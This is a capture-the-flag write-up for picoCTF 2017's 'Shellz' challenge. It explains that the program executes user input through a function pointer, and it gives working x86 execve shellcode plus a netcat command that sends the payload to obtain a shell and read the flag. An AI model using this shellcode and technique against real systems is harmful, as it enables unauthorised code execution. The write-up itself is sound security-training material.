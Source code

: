 # **Shellz - 55 pts**

```
You no longer have an easy thing to call, but you 
have more space. Program: shellz! Source. 
Connect on shell2017.picoctf.com:6942.
```

So we're given a port to connect to and some source code. Let's see what we can do.

### **Step 1 - where is the weakness in shellz.c?**
`void (*func)() = (void (*)())stuff;`

When we input our 40 bytes into the program, a function pointer is created! This means we can manipulate the program to execute code it wasn't intended for.

### **Step 2 - generate payload**
For this, we need shellcode. Lots of people before you have written their own, so don't bother trying to write your own. [here](https://www.google.com/search?q=shellcode+generator&oq=shellcode+generator&aqs=chrome..69i57j0l5.2937j0j4&sourceid=chrome&ie=UTF-8)

`python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')" > payload`

is what I utilized, which executes /bin/dash. Next, to run it through the program.

### **Step 3 - put it together**
`cat payload - | nc shell2017.picoctf.com 6942`

The `-` is necessary so that the contents of payload count as stdin to nc. Once you have executed that, you should have a shell! Look to find the flag, flag.txt, and cat it.


flag{4effa67d6909029fd3cc45600f024e3f}
